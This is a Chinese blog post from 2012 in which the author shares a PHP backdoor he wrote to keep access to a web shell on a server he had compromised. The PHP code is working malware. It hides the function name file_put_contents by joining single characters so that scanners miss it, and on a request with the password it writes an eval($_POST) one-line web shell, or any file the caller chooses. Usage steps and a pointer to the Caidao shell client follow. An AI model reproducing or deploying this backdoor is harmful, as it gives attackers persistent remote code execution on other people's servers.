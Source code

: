 title: "自己写的一个PHP后门"
id: 64
date: 2012-07-01 12:58:04
tags: 
- 后门
categories: 
- 原创作品
---

今天去连接很久以前的一个shell(目的是做个实验)结果~~被人改密码了。 好吧，你丫的改，看看我怎么收拾你。

所以就想写一个后门，为啥呢？省的又被改或者删了呗，现在的大马带有后门检测功能。所以为了防止被杀。。。。

其实这个后门的思路是来自之前在思派尔工作的头，他当时给我看了一个别人的后门结果一看真的很猥琐，

全部用连接符连接起来的字符串查杀木马的程序在强大也不可能把这个查出来的，所有就有了今天这个后门。

###代码：

```php

<?php
/*
 * PHP后门程序
 * 使用说明：此程序默认会在当前目录下生成一句话cmd.php密码cmd
 * 不含有任何敏感函数有它也查不出来所以免杀是必然的。生成的一句
 * 不是免杀的，要免杀原理已经能看到了，自行处理。
 * 亲，使用的时候注意删除这里的注释~~
 * BY: Return Data:2012.6.29
 */
function scm(){
 $pod = '123'; //密码
 $_GET['ct'] == $pod ? '' : exit();
 $fcn = 'f'.'i'.'l'.'e'.'_'.'p'.'u'.'t'.'_'.'c'.'o'.'n'.'t'.'e'.'n'.'t'.'s';
 if(@$_GET['sf']=='yes'){
 $fnm = $_GET['filepath'];
 $fct = $_GET['content'];
 }else{
 $fnm = 'c'.'m'.'d'.'.'.'p'.'h'.'p';
 $fct = '<'.'?'.'p'.'h'.'p'.' @'.'e'.'v'.'a'.'l'.'('.'$'.'_'.'P'.'O'.'S'.'T'.'['.'&quot;'.'c'.'m'.'d'.'&quot;'.']'.')'.'?'.'>';
 }
 @$fcn($fnm, $fct);
 echo 'succeed!';
}
scm();
?>
```
<!--more-->
##使用方法：

参数：ct 为密码 ，sf 为是否使用自定义内容，

filepath 自定义文件路径，content 自定义文件内容

自带后门生成方法 ： door.php?ct=密码

自定义后门生成方法： door.php?ct=密码&amp;sf=yes&amp;filepath=文件路径&amp;content=文件内容

注意：

自动生成后门会在当前目录下生成一个cmd.php密码为cmd的一句话，怎么使用一句话？

菜刀连接，你懂得~~
